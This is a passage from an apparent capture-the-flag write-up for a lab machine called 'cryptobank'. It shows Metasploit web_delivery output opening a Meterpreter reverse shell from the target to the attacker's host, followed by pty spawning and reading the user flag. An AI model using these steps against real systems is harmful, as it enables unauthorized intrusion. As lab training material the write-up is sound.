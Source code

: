 <img src="/assets/img/uploads/cryptobank/lfi.png">
</center>

After executing, we can shell that a reverse shell is opened on the target machine.

```r
msf5 exploit(multi/script/web_delivery) > [*] 192.168.1.9      web_delivery - Delivering Payload (1112 bytes)
[*] Sending stage (38288 bytes) to 192.168.1.9
[*] Meterpreter session 1 opened (192.168.1.8:4444 -> 192.168.1.9:59856)

msf5 exploit(multi/script/web_delivery) > sessions -l
Active sessions
===============

  Id  Name  Type                   Information                 Connection
  --  ----  ----                   -----------                 ----------
  1         meterpreter php/linux  www-data (33) @ cryptobank  192.168.1.8:4444 -> 192.168.1.9:59856 (192.168.1.9)

msf5 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter >

```


We can use the shell and then read our user flag!

```r
meterpreter > shell
Process 26876 created.
Channel 0 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'  
</cryptobank/development/tools/FileInclusion/pages$ cd /home/cryptobank/
cd /home/cryptobank/
www-data@cryptobank:/home/cryptobank$ cat flag.txt
cat flag.txt
flag{l4szl0h4ny3cz1smyh3r0}
```
